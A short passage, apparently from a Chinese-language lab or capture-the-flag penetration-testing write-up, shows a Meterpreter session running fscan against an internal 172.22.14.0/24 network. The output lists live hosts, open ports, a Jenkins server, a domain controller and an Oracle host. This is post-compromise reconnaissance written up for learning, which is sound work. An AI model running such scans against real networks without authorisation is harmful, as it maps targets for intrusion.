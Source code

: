 ## 信息搜集

上线 VIPER 后使用 fscan 进行扫描

```bash
meterpreter > shell -c 'fscan64.exe -h 172.22.14.7/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.22.14.7     is alive
(icmp) Target 172.22.14.11    is alive
(icmp) Target 172.22.14.16    is alive
(icmp) Target 172.22.14.31    is alive
(icmp) Target 172.22.14.46    is alive
[*] Icmp alive hosts len is: 5
172.22.14.46:445 open
172.22.14.31:445 open
172.22.14.11:445 open
172.22.14.7:445 open
172.22.14.46:139 open
172.22.14.31:139 open
172.22.14.11:139 open
172.22.14.7:139 open
172.22.14.46:135 open
172.22.14.31:135 open
172.22.14.11:135 open
172.22.14.7:135 open
172.22.14.46:80 open
172.22.14.16:80 open
172.22.14.7:80 open
172.22.14.16:22 open
172.22.14.7:8080 open
172.22.14.7:3306 open
172.22.14.31:1521 open
172.22.14.11:88 open
172.22.14.16:8060 open
172.22.14.16:9094 open
[*] alive ports len is: 22
start vulscan
[*] NetInfo:
[*]172.22.14.7
   [->]XR-JENKINS
   [->]172.22.14.7
[*] NetInfo:
[*]172.22.14.11
   [->]XR-DC
   [->]172.22.14.11
[*] NetInfo:
[*]172.22.14.46
   [->]XR-0923
   [->]172.22.14.46
[*] NetInfo:
[*]172.22.14.31
   [->]XR-ORACLE
   [->]172.22.14.31
[*] NetBios: 172.22.14.11    [+] DC:XIAORANG\XR-DC          
[*] NetBios: 172.22.14.31    WORKGROUP\XR-ORACLE           
[*] WebTitle: http://172.22.14.7:8080   code:403 len:548    title:None
[*] NetBios: 172.22.14.46    XIAORANG\XR-0923              
```